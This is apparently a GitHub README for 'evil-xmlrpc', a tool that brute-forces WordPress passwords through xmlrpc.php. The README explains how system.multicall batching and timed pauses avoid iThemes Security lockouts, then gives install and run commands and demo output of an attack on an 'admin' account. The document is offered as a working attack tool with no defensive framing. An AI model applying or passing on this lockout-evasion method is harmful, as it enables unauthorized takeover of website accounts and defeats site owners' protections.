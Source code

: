 # evil-xmlrpc
evil-xmlrpc is a tool that I created to help me bruteforce wordpress user accounts using xmlrpc.php while bypassing iThemes Security preventing lockouts

While testing a specific target I noticed that xmlrpc was enabled, but after sending a few requests against a discovered user account, I was locked out of the site. After waiting till the lockout period ended I saw that iThemes Security Plugin was being used on the site. I soon noticed that I was completely locked out after sending 5 requests. Regular bruteforce methods which invloved sending requests that contain only a single username and password per request wasn't going to work here. Later I discovered that you could send many login attempts via 1 single request using "system.multicall". In my particular situation I found that I could only send 1666 login attempts per request at a time (may be different for your target). So I made this script to be able to take a password list (of about 1 million words) and send it off in groups of 1664 (Initially was 1666 in the script, but cut it back by 2 for breathing room). 

For example: 
* Request 1 (Sends lines 1-1666 of wordlist) 
* Request 2 (Sends lines 1667-3332 of wordlist)
* Request 3 (Sends lines 3333-4998 of wordlist)
* Request 4 (Sends lines 4999-6664 of wordlist)

Before sending the 5th request in order to prevent being locked out of the site, stop for 5 mins and then continue going down the list.

## Install 

```sh
git clone https://github.com/0xApt/evil-xmlrpc.git
cd evil-xmlrpc
pip3 install -r requirements.txt
python3 evil-xmlrpc.py <passwordlist> <username> <https://www.examplesite.com>
```

## Demo output

```sh

root@user:~ python3 evil-xmlrpc.py 100000-pass-wordlist.txt admin https://www.examplesite.com                                                                                                                      

                 ██  ▀██                        ▀██
  ▄▄▄▄  ▄▄▄▄ ▄▄▄ ▄▄▄   ██     ▄▄▄ ▄▄▄ ▄▄ ▄▄ ▄▄    ██  ▄▄▄ ▄▄  ▄▄▄ ▄▄▄    ▄▄▄▄
▄█▄▄▄██  ▀█▄  █   ██   ██      ▀█▄▄▀   ██ ██ ██   ██   ██▀ ▀▀  ██▀  ██ ▄█   ▀▀
██        ▀█▄█    ██   ██       ▄█▄    ██ ██ ██   ██   ██      ██    █ ██
 ▀█▄▄▄▀    ▀█    ▄██▄ ▄██▄    ▄█  ██▄ ▄██ ██ ██▄ ▄██▄ ▄██▄     ██▄▄▄▀   ▀█▄▄▄▀
                                                               ██
                                                              ▀▀▀▀
                                By 0xapt

[*] Checking if site is vulnerable..
[*] Site is vulnerable!
[*] File has 100000 lines

[*] Sending Payload.. 
[*] Attempt: 1 
[*] Target User: admin
[*] Using lines 0 to 1664 from password list
[*] Content Length: 356283
[*] Interesting.. Saving response..
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 2 
[*] Target User: admin
[*] Using lines 1665 to 3328 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 3 
[*] Target User: admin
[*] Using lines 3329 to 4992 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 4 
[*] Target User: admin
[*] Using lines 4993 to 6656 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Waiting 5 mins to prevent lockout...
[*] Till next requests: 3:24
```
